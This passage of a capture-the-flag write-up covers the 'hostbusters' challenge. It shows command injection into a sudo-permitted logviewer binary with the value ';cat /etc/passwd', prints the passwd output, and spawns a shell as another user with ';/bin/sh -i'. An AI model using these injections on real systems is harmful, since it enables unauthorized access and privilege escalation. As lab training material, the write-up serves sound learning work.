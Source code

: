 ```txt,name=strings /usr/bin/logviewer,hl_lines=16
...
```

If there is no sanitization we might be able to inject into the commandline it
is running. Let's try,
```sh
;cat /etc/passwd
```
as the file.

```sh,name=/usr/bin/logviewer ;cat /etc/passwd
Usage: /usr/bin/logviewer <logfile_pattern>
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
klogd:x:100:101:klogd:/dev/null:/sbin/nologin
gh0st404:x:1000:1000::/home/gh0st404:/bin/sh
mirveal:x:1001:1001::/home/mirveal:/bin/sh
deephax:x:1002:1002::/home/deephax:/usr/bin/dfsh
```

This means we have `command injection`. Let's try spawing a shell with sudo now:
```sh
sudo -u mirveal /usr/bin/logviewer ';/bin/sh -i'
```

Awesome we are mirveal now. We can use openssl now to decrypt the file:
```sh
openssl pkeyutl -in hostbusters6.bin -inkey .keys/private.pem -decrypt -pkeyopt rsa_padding_mode:pkcs1 -out flag.txt
```

This gives us our second to last flag:

```sh,name=cat flag.txt
deadface{hostbusters6_d22a1c03f3454b9c}
```

Let's go for a sprint on the final stretch and slay this beast of a machine!

---
